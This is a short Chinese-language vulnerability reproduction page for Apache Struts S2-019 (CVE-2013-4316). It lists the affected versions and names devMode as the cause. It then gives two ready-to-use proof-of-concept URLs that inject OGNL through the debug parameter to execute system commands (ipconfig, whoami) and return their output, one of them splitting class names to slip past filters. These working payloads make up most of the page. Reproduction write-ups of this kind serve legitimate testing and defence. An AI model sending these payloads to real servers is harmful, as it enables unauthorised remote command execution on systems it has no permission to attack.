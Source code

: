 （CVE-2013-4316）s2-019
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Struts 2.0.0 - Struts 2.3.15.1

三、复现过程
------------

漏洞成因

    <constant name="struts.devMode" value="true" />

### POC

    https://www.0-sec.org/example/HelloWorld.action?debug=command&expression=%23a%3D%28new%20java.lang.ProcessBuilder%28%27ipconfig%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B500000%5D%2C%23d.read%28%23e%29%2C%23out%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23out.getWriter%28%29.println%28new%20java.lang.String%28%23e%29%29%2C%20%23d.read%28%23e%29%2C%23out.getWriter%28%29.println%28new%20java.lang.String%28%23e%29%29%20%2C%20%23d.read%28%23e%29%2C%23out.getWriter%28%29.println%28new%20java.lang.String%28%23e%29%29%20%2C%23out.getWriter%28%29.flush%28%29%2C%23out.getWriter%28%29.close%28%29
    https://www.0-sec.org/example/HelloWorld.action?debug=command&expression=%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%22whoami%22).getInputStream())),%23resp.getWriter().flush(),%23resp.getWriter().close()
